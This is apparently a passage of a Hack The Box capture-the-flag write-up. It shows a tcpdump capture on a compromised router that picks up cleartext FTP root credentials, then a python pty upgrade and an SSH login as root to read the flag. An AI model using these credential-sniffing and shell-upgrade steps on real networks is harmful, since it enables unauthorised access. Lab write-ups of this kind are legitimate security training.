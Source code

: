 ```
root@r1:~# tcpdump -vv -s0 -ni eth2 -c 10 port 21
tcpdump: listening on eth2, link-type EN10MB (Ethernet), capture size 262144 bytes
[...]
13:53:01.528076 IP (tos 0x10, ttl 63, id 11657, offset 0, flags [DF], proto TCP (6), length 63)
    10.78.10.2.50692 > 10.120.15.10.21: Flags [P.], cksum 0x2e03 (incorrect -> 0x75af), seq 1:12
	USER root
[...]
13:53:01.528248 IP (tos 0x10, ttl 63, id 11658, offset 0, flags [DF], proto TCP (6), length 74)
    10.78.10.2.50692 > 10.120.15.10.21: Flags [P.], cksum 0x2e0e (incorrect -> 0xa290), seq 12:34
	PASS BGPtelc0rout1ng
```

### Logging to the server with root system and getting the system flag

Note: We can log in directly from the HTB network to the box IP with the FTP credentials, but in this example we'll log in from `r1`. We have to first enable an interactive pty so we can SSH.

```
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@r1:~# ssh root@10.120.15.10
root@10.120.15.10's password: BGPtelc0rout1ng

Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
[...]

root@carrier:~# ls
ls
root.txt  secretdata.txt
root@carrier:~# cat root.txt

cat root.txt
2832e...
```

Note: You could also ssh directly to the box as root without hopping through the reverse shell